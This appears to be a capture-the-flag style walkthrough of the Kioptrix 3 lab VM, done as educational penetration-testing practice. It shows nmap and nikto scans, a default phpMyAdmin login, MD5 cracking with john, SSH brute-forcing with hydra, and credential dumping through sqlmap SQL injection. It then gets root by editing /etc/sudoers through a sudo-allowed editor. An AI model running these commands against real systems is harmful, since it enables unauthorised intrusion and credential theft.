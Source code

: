 # Enumeration
## TCP Ports enumeration
nmap -sS -T4 -p- -A 192.168.1.11

![image](https://user-images.githubusercontent.com/24206178/154663783-71b0e05a-9891-4f04-87fa-653c8af2a30a.png)


Intersting:

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)

80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)

OS details: Linux 2.6.9 - 2.6.33

#SSH service and a webserver are running

So we will go after those two!!

##  Web server

nikto -h 192.168.1.11

![image](https://user-images.githubusercontent.com/24206178/154663970-d618a8ea-c291-4080-ae3d-b0b7df69c48b.png)

/phpmyadmin/: phpMyAdmin directory found

curl --head 192.168.1.11

![image](https://user-images.githubusercontent.com/24206178/154663996-16ea3849-7ad5-48c7-856f-0175f6a9eb78.png)

 let’s try some default username/password on the phpmyadmin
 
 “admin” with an empty password worked!
 Unfortunately, “admin” user has only access to information_schema and didn’t reveal any credentials we can use to get a shell through SSH.
 
 ![image](https://user-images.githubusercontent.com/24206178/154663936-b6e08080-75ad-4e73-9aed-c7c51203c3f9.png)
 
After poking through the site it seems to contain 2 components:

1- Ligoat Security blog
2- Gallery (Kioptrix3.com/gallery)

Important note:
Before trying out our webapp pentesting skills, it’s worth noting that we found a username in the second blogpost!

![image](https://user-images.githubusercontent.com/24206178/154664017-b20ab2ad-4d42-43d3-81c0-7a81e8b0fab9.png)

Welcome loneferret! and don't forget to fill in your time sheet.  

### LotusCMS

![image](https://user-images.githubusercontent.com/24206178/154664093-778d8904-3b24-4433-a431-482fb458b83a.png)

What is LotusCMS???

![image](https://user-images.githubusercontent.com/24206178/154664128-be935ed5-3e9f-4e19-8ac9-8822b3661dee.png)

![image](https://user-images.githubusercontent.com/24206178/154664175-2e99f2c6-e1d6-4534-9bb9-23bc984a3af2.png)

so we notic that the last version was in 14-03-2011
when the bloge wrote in 05 August 2010!!

lets dig a little bit more
Open metasploit and search

>msfconsole
>search LotusCMS

![image](https://user-images.githubusercontent.com/24206178/154664276-c551e260-540c-4068-80cd-47157bb881a9.png)

# Exploit

Trying to know the type of the hash

hashid 5badcaf789d3d1d09794d8f021f40f0e

![image](https://user-images.githubusercontent.com/24206178/154664430-ff16b3fa-9bd4-40c4-b634-374e4c6d6412.png)

perfect! lets say it is MD5 as it was in the top

Now, Create a file hashes.txt and copy these hashes to the file
then use john the wripper

>john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5 hashes.txt

IMPORTANT NOTE!!

if the password already cracked before it will not show up
so you write this command

john --show --format=raw-md5 hashes.txt

![image](https://user-images.githubusercontent.com/24206178/154664505-eef36c9d-d245-4fb6-8fd5-81b027f0baf5.png)

Thats perfect!
now we have the usernames and passwords to use to login using ssh

#### Method 2

We already know the user exists via a blog post mentioned earlier.

Using Hydra

hydra -e nsr -l loneferret -P Desktop/Passwords/xato-net-10-million-passwords-10000.txt 192.168.1.11 ssh -t 4

![image](https://user-images.githubusercontent.com/24206178/154664585-15b04ce2-b5cb-428d-8915-9f2f1d10eeca.png)

Thats perfect!
now we have the usernames and passwords to use to login using ssh

### Method 3: SQL injection through Gallery

We tried and this specific sql injection is working
http://192.168.1.11/gallery/gallery.php?id=1

Using sqlmap

sqlmap -u "http://192.168.1.11/gallery/gallery.php?id=1"


#now to see the databases

sqlmap -u "http://192.168.1.11/gallery/gallery.php?id=1" -dbs

![image](https://user-images.githubusercontent.com/24206178/154664690-e4a44779-94f5-46e7-95f8-08780b43dfaf.png)

#now to see the tables

sqlmap -u "http://192.168.1.11/gallery/gallery.php?id=1" --tables -D gallery

![image](https://user-images.githubusercontent.com/24206178/154664732-261b3c60-267b-4595-ba7f-90f90e502d6d.png)


##now to see the columns

sqlmap -u "http://192.168.1.11/gallery/gallery.php?id=1" --columns -D gallery -T dev_accounts

![image](https://user-images.githubusercontent.com/24206178/154664745-ecded11b-2286-490b-b75e-570410a2a31c.png)

#Now to see the data in the columns

sqlmap -u "http://192.168.1.11/gallery/gallery.php?id=1" --dumb -D gallery -T dev_accounts

![image](https://user-images.githubusercontent.com/24206178/154664773-16427dd8-f45c-4288-a0cf-085afad69a47.png)

Thats perfect!
now we have the usernames and passwords to use to login using ssh

# Privilege Escalation to root

ssh loneferret@192.168.1.11

![image](https://user-images.githubusercontent.com/24206178/154664939-8e16bfa7-ca85-4176-94ee-6769dc3c5750.png)

![image](https://user-images.githubusercontent.com/24206178/154664972-1069213c-cb1a-47fd-968f-e7f40317fa7c.png)

Now lets dig around

ls -

![image](https://user-images.githubusercontent.com/24206178/154664993-035f5161-b220-4434-894a-42087dd32735.png)

cat CompanyPolicy.README

![image](https://user-images.githubusercontent.com/24206178/154665009-8f55eee1-7fc6-42a4-b850-cd27cac12caf.png)

Please use the command 'sudo ht'    Intersting!

which ht

![image](https://user-images.githubusercontent.com/24206178/154665046-14242912-b5a7-462a-966e-12cad60ebd4b.png)

Now lets go find out what is that

cd /usr/local/bin/ht

ls -

![image](https://user-images.githubusercontent.com/24206178/154665078-b6a2e8a1-fa6e-4f48-8254-b85d43fed8d9.png)

Oh, so this file has setuid bit enabled, AND is owned by root

What’s the easiest file to edit and get root you ask?

It’s /etc/sudoers.

Be extremely careful while editing the sudoers file, saving it in bad format might break stuff and make you unable to use the su command. How do I know? Because I broke my VM, twice.

First, update the environment variable TERM.

   sudo /usr/local/bin/ht
   Error opening terminal: xterm-256color.
   export TERM=xterm
   ht /etc/sudoers
    
   ![image](https://user-images.githubusercontent.com/24206178/154665242-02d222c9-95b0-4f93-b59e-154fb7f5bf9c.png)

   ![image](https://user-images.githubusercontent.com/24206178/154665276-73c226d5-da85-42d4-92b3-759193d37a0d.png)
    
   F3
    
   ![image](https://user-images.githubusercontent.com/24206178/154665341-f00a4652-eeb1-41c9-afe0-4e4a88eb6cef.png)

    
   /etc/sudoers
    
   [Uploading image.png…]()

    
   Now let's do some hex patching. We want to change

   loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht
    
   TO
   loneferret ALL=(ALL) ALL  #/usr/bin/su, /usr/local/bin/ht
    
![image](https://user-images.githubusercontent.com/24206178/154665423-a23da9de-da81-44fd-bba8-a1d105e9066a.png)

F10

![image](https://user-images.githubusercontent.com/24206178/154665455-5bb47c99-45a9-45ac-96d5-90d18fe1e298.png)

![image](https://user-images.githubusercontent.com/24206178/154665475-3e08a5f7-cd15-4e13-83c2-f0abe49f693c.png)


sudo su -

![image](https://user-images.githubusercontent.com/24206178/154665482-e0cf52a5-1236-4d39-931f-5e34b2ebd072.png)

BINGO!
